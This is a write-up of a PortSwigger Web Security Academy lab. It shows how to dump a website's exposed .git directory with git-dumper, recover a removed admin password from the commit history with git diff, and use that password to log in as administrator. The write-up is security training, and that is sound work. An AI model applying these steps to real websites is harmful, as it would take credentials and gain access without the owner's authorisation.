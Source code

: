## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/54c347d8-4a9f-4dc1-9699-efc317c621f2)


## Overview :

- Virtually all websites are developed using some form of version control system, such as Git. By default, a Git project stores all of its version control data in a folder called `.git`.
- Occasionally, websites *expose this directory in the production environment*. In this case, you might be able to access it by simply browsing to /.git.

## Solution :

Once the website loads, check out the **.git** directory . ie - `https://<id>.web-security-academy.net/.git`. The page discloses some files like this,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa9b30f0-7457-4f5b-8ce6-b4c3edef677a)

### Retreive the admin's password -

To analyse these .git files we can use a tool called ![Git-dumper](https://github.com/arthaud/git-dumper)

1. Use the command - `python3 git_dumper.py https://0a1e0026040c2e3f8297b0dc00ec003c.web-security-academy.net/.git  websecurity/.` to save the files along with the .git directory in the folder of our choice in our linux machine.
   
2. **git log** shows these two commit  logs.

```git
commit 63085ffc69c9cab7029684ec63ba9219cb96f851 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 19dd0c8f15df85cd3526e0d51e9f912d3e52c556
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

3. Running `git diff 19dd0c8f15df85cd3526e0d51e9f912d3e52c556 63085ffc69c9cab7029684ec63ba9219cb96f851` gives us the following result which contains the admin password which was removed - **administrator:kw9sxvjbf1eqp40vwm6d**.

```git
diff --git a/admin.conf b/admin.conf
index ec58905..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=kw9sxvjbf1eqp40vwm6d
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

### Login & delete user carlos -

Login as admin with the passwrod found.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6bf3cf90-07a6-4d06-a6fb-15474bbff796)

Go to the admin panel & delete user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/bde96662-266a-4633-9c06-f4b7c4f86bde)





